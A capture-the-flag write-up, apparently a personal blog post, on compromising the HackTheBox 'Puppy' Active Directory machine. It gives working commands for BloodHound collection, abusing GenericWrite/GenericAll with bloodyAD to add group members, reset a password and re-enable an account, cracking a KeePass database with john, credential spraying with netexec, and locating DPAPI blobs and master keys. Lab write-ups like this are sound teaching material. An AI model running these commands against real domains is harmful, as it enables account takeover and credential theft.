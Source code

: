 ```yaml
---
title: HackTheBox | Puppy | Medium
published: 2025-09-30
description: "In this write-up, I explain how I gained ownership of Puppy on HackTheBox."
image: "./img/image.png"
tags: [CTF, HTB, write-up, Season8]
category: 'CTF'
draft: false
---
```

## Summary

This was an Active Directory (AD) machine. I began with an Nmap scan, enumerated LDAP and SMB, collected BloodHound data, abused AD write privileges to gain access to a restricted SMB share, recovered a KeePass database, extracted credentials, used those to access a WinRM session, and finally extracted additional credentials from DPAPI blobs to escalate to the administrator account.
## Recon

I always start with an Nmap scan. Results :

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-28 21:20:34Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-09-28T21:22:28
|_  start_date: N/A
```

The scan shows this is a domain controller (LDAP, Kerberos, , SMB). I added an entry to my `/etc/hosts` :

```text
10.10.11.70    DC.PUPPY.HTB PUPPY.HTB DC
```
## Initial access & enumeration

The box provided some credentials that I could use for enumeration. I had access to SMB and LDAP. I used these to gather AD data:

![](Season%208%20-%20Puppy.png)

- Enumerated SMB shares.

![](Season%208%20-%20Puppy-1.png)

- Queried LDAP/BloodHound information (I used `rusthound-ce` to collect AD relationships for BloodHound).
### BloodHound collection

I collected BloodHound data with:

```bash
rusthound-ce --domain puppy.htb -u levi.james -p 'KingofAkron2025!'
```

Then I imported the output into BloodHound and looked for interesting relationships. BloodHound showed our user levi member of HR have a **GenericWrite** over `DEVELOPERS` group.

![](Season%208%20-%20Puppy-2.png)

**Note on GenericWrite:** GenericWrite allows modification of many non-protected attributes. For user objects that can include `servicePrincipalName` (enabling targeted Kerberoasting). For group objects it allows adding members. For computer objects it allows writing `msds-KeyCredentialLink` to create shadow credentials (PKINIT). [See BloodHound docs for more details.](https://bloodhound.specterops.io/resources/edges/generic-write)
## Abusing GenericWrite to gain share access

With the account we have (`levi.james`) and the BloodHound findings, I used `bloodyAD` to add `levi.james` to the `DEVELOPERS` group (the tool reported success):

```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember "DEVELOPERS" levi.james
```

After being added to `DEVELOPERS`, I rechecked SMB and discovered access to a `DEV` share.

```bash
smbmap -u levi.james -p '...' -H 10.10.11.70
```

![](Season%208%20-%20Puppy-4.png)

Inside the `DEV` share there was a file `recovery.kdbx` (a KeePass database). I downloaded it for offline analysis.

![](Season%208%20-%20Puppy-5.png)
## KeePass database — cracking and extraction

The KeePass database was password protected. I converted the `.kdbx` file to a John-compatible hash and cracked it with `john` (bleeding-jumbo):

```bash
# generate the keepass hash for john
keepass2john recovery.kdbx > hashkdbx

# crack with john
john --wordlist=/usr/share/wordlists/rockyou.txt hashkdbx
```

After cracking, I exported the KeePass entries (or opened `recovery.kdbx` in KeePassXC) and enumerated stored credentials.

```sh
keepassxc-cli export -f csv recovery.kdbx
```

I collected a list of usernames found in the KeePass file and BloodHound enumeration:

```text
jamie.williams
adam.silver
ant.edwards
steph.cooper
steph.cooper_adm
```

I verified which credentials were valid against SMB using `netexec` :

```bash
netexec smb 10.10.11.70 -u users.txt -p pass.txt
# example output showed PUPPY.HTB\ant.edwards was valid
```

I obtained valid credentials for `ant.edwards`.
## Abusing GenericAll to reset password

BloodHound showed that `ant.edwards` had **GenericAll** over `adam.silver` (GenericAll is equivalent to full control over a target object, meaning you can reset passwords, modify attributes, etc.).

![](Season%208%20-%20Puppy-9.png)

I used `bloodyAD` to set a new password for `adam.silver`:

```bash
bloodyAD --host "10.10.11.70" -d "puppy.htb" -u "ant.edwards" -p '<ANT_PASSWORD>' set password "adam.silver" "Password@1"
```

The password change succeeded, but the account was disabled. 

![](Windows%20Cheat%20Sheet.png)

I used `bloodyAD` again to clear the `ACCOUNTDISABLE` flag on the `userAccountControl` attribute:

```bash
bloodyAD --host "10.10.11.70" -d "puppy.htb" -u "ant.edwards" -p '<ANT_PASSWORD>' remove uac "adam.silver" -f ACCOUNTDISABLE
```

After enabling the account, `adam.silver` check what we have access to.

![](Windows%20Cheat%20Sheet-1.png)

## Initial foothold — WinRM and user flag

Using the `adam.silver` credentials, I authenticated over WinRM and obtained the user flag. 

During enumeration of `C:\Users\adam.silver\`, I found a `Backups` folder containing `site-backup-2024-12-30.zip`.

![](Season%208%20-%20Puppy-10.png)

I downloaded the backup ZIP and inspected its contents locally. Inside the backup I found credentials for `steph.cooper`.

![](Season%208%20-%20Puppy-11.png)
## Privilege escalation — DPAPI credential recovery

With `steph.cooper` credentials and a WinRM session as that user, I ran local enumeration (WinPEAS). WinPEAS reported locations where Windows stores credential blobs and MasterKeys:

![](Season%208%20-%20Puppy-16.png)

```powershell
# Credential blob location
C:\Users\<user>\AppData\Local\Microsoft\Credentials\<blob>

# MasterKey location
C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\<MasterKey>
```

I confirmed the presence of both the credential blob(s) and the corresponding MasterKey for `steph.cooper` and transferred them to my attacking machine.

![](Season%208%20-%20Puppy-14.png)

Using Impacket's `dpapi` tools, I decrypted the blob and recovered `steph.cooper_adm` credentials.

![](Season%208%20-%20Puppy-15.png)
